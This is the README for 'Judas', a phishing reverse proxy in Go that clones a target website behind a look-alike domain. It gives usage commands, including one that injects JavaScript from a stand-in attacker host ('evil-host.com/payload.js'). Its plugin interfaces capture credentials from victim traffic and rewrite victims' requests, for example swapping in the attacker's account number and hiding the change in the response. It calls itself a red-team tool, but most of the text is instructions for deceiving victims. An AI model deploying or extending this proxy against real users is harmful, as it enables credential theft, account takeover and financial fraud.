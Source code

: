 Judas
=====
Judas is a pluggable phishing proxy.
It can clone any website passed to it using command line flags, and you can extend it with Go plugins for fun and (legal) profit.
Judas is meant to be used in red team phishing exercises to phish victims without them being able to notice.
When combined with effective typosquatting, Judas is unstoppable.

```
Usage of judas:
  -address string
        Address and port to run proxy service on. Format address:port. (default "localhost:8080")
  -inject-js string
        URL to a JavaScript file you want injected.
  -insecure
        Listen without TLS.
  -insecure-target
        Not verify SSL certificate from target host.
  -plugins string
        Colon separated file path to plugin binaries.
  -proxy string
        Optional upstream proxy. Useful for torification or debugging. Supports HTTPS and SOCKS5 based on the URL. For example, http://localhost:8080 or socks5://localhost:9150.
  -proxy-ca-cert string
        Proxy CA cert for signed requests
  -ssl-hostname string
        Hostname for SSL certificate
  -target string
        The website we want to phish.
  -with-profiler
        Attach profiler to instance.
```

Building
--------
To build `judas`, simply run `go build`.
 ```
 go build cmd/judas.go
 ```


Usage
-----
The target ```--target``` flag is required.
`judas` will use Let's Encrypt to automatically create SSL certificates for website, simply pass the `--ssl-hostname` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com
```

If you want to listen using HTTP, pass the ```--insecure``` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --insecure
```

If you want to accept self-signed SSL certificate from target host, pass the ```--insecure-target``` flag.
This is useful for passing it through an intercepting proxy like Burp Suite for debugging purposes.

Example:
```
./judas \
    --target https://target-url-with-self-signed-cert.com \
    --proxy http://localhost:8080 \
    --insecure-target
```


It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.
Judas supports SOCKS5 and HTTP proxies.
HTTP proxies must being with `http://` and socks5 proxies must begin with `socks5://`

Example:
```
./judas \
    --target https://torwebsite.onion \
    --ssl-hostname phishingsite.com \
    --proxy socks5://localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --inject-js https://evil-host.com/payload.js
```

Plugins
-------
Judas can be extended using [Go plugins](https://golang.org/pkg/plugin/). 
An `judas` plugin is a regular Go plugin with a function called `New` that implements `judas.InitializerFunc`.
You can use plugins to save request-response transactions to disk for further analysis, or pull credentials and sensitive information out of requests and responses on the fly.
Plugins run in their own goroutine and judas will recover from panics, so you don't need to worry too much about what you do in the plugins.
You should configure your plugins using [environment variables](https://golang.org/pkg/os/#Getenv).

```
// InitializerFunc is a go function that should be exported by a function package.
// It should be named "New".
// Your InitializerFunc should return an instance of your Listener with a reference to judas's logger for consistent logging.
type InitializerFunc func(*log.Logger) (Listener, error)
```

The `judas.Listener` interface has one method: `Listen`.

```
// Listener implementations will be given a stream of HTTPExchanges to let plugins capture valuable information out of request-response transactions.
type Listener interface {
	Listen(<-chan *HTTPExchange)
}
```

`Listen` implementations will receive a stream of  `judas.HTTPExchange`.
These contain the `judas.Request`, the payload and the `judas.Response`, along with the target.

```
// HTTPExchange contains the request sent by the user to us and the response received from the target server.
// Listeners can use this struct to pull information out of requests and responses.
type HTTPExchange struct {
	Request  *Request
	Response *Response
	Target   *url.URL
}
```

Plugins can also modify requests after they come from the victim and responses after they're returned from the server.
This is useful when you want to modify a request on the fly, like replacing an account number with yours.
To take advantage of this, simply create a custom `RequestTransformer` or `ResponseTransformer`.

```
// RequestTransformer modifies a request before it is sent to the target website.
// This can be used to hijack victim actions, like replacing an account number with ours.
// Delays in this function will slow down the phishing site for the victim.
// Your RequestTransformer should be a function called "RequestTransformer"
type RequestTransformer func(*http.Request) error

// ResponseTransformer modifies a response before it is returned to the victim.
// You can use ResponseTransformers to hide any visible results of a RequestTransformer.
// Delays in this function will slow down the phishing site for the victim.
// Your ResponseTransformer should be a function called "ResponseTransformer"
type ResponseTransformer func(*http.Response) error
```

You only have to implement the methods you're using.
You can put compiled plugins in a directory and pass them with the `--plugins` flag.
Plugins are colon separated file paths.

Example:
```
judas \
     --target https://www.target.com \
     --insecure \
     --address localhost:9000 \
     --proxy http://localhost:8080 \
     --insecure-target \
     --plugins ./searchloggingplugin.so:./linksloggingplugin.so
```

See [examples/searchloggingplugin/searchloggingplugin.go](https://github.com/JonCooperWorks/judas/tree/master/examples/searchloggingplugin/searchloggingplugin.go)

You can build a plugin using this command:
```
go build -buildmode=plugin examples/searchloggingplugin/searchloggingplugin.go
```
